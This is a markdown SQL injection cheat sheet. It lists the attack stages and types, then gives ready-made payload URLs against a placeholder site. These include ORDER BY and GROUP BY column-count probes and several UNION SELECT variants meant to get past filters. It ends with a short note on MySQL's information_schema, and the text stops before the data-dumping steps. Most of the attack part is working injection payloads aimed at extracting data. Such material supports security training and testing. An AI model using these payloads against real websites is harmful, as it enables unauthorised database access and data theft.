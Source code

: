 # SQL Injection Basic To Advanced

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```
